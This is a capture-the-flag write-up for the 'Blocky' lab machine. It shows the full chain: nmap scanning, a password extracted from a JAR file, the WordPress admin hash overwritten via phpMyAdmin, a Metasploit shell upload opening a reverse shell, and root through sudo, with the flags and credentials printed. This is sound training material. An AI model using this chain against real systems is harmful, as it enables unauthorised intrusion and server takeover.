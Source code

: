 # Blocky

## SYN Scan
```
nmap -sS -sV -O -p- -v -Pn -T4 -oA nmap/full_syn 10.10.10.37

PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp    open   http      Apache httpd 2.4.18 ((Ubuntu))
8192/tcp  closed sophos
25565/tcp closed minecraft

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## phpMyAdmin
![phpmyadmin](./screenshots/phpmyadmin.png)

## Wiki
![wiki](./screenshots/wiki.png)

## Wordpress Admin Login Page
![wp_login](./screenshots/wp_login.png)

## Plugins
![plugins](./screenshots/plugins.png)

## phpMyAdmin Credential in BlockyCore.jar (BlockyCore)

```
root: 8YsqfCTnvxAUeduzjNSXe22
```

![db_cred](./screenshots/db_cred.png)

## Wordpress Admin Login
Chose `passme` as `notch`'s password and generated its Wordpress hash, then edited the password hash via phpMyAdmin.

```
passme: $P$BZ.5OIwN/q5ZOjJLfypdMymuL4mBTf/
```

![admin_pass](./screenshots/admin_pass.png)

![admin_panel](./screenshots/admin_panel.png)

## RCE via Wordpress Admin SHELL Upload
```
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.11:4444 
[*] Authenticating with WordPress using notch:passme...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/aZrLOPxtir/PUKoFDKHmJ.php...
[+] Deleted PUKoFDKHmJ.php
[+] Deleted aZrLOPxtir.php
[+] Deleted ../aZrLOPxtir
[*] Command shell session 3 opened (10.10.14.11:4444 -> 10.10.10.37:35802) at 2021-03-28 02:37:35 +0300

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Wordpress DB Credential
```
/var/www/html/wp-config.php
define('DB_NAME', 'wordpress');
define('DB_USER', 'wordpress');
define('DB_PASSWORD', 'kWuvW2SYsABmzywYRdoD');
define('DB_HOST', 'localhost');
```

## SSH Login via phpMyAdmin Credential
notch user uses the password which was found in `BlockyCore.jar`.

```
notch: 8YsqfCTnvxAUeduzjNSXe22
```

```
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

## The User Flag
```
notch@Blocky:~$ ls -l /home/notch/
total 8
drwxrwxr-x 7 notch notch 4096 Jul  2  2017 minecraft
-r-------- 1 notch notch   32 Jul  2  2017 user.txt
```

```
notch@Blocky:~$ cat /home/notch/user.txt 
59fee0977fb60b8a0bc6e41e751f3cd5
```

## The Root Flag
```
notch@Blocky:~$ sudo su
[sudo] password for notch: 
root@Blocky:/home/notch# id
uid=0(root) gid=0(root) groups=0(root)
```

```
root@Blocky:/home/notch# ls -l /root/
total 4
-r-------- 1 root root 32 Jul  2  2017 root.txt
```

```
root@Blocky:/home/notch# cat /root/root.txt
0a9694a5b4d272c694679f7860f1cd5f
```
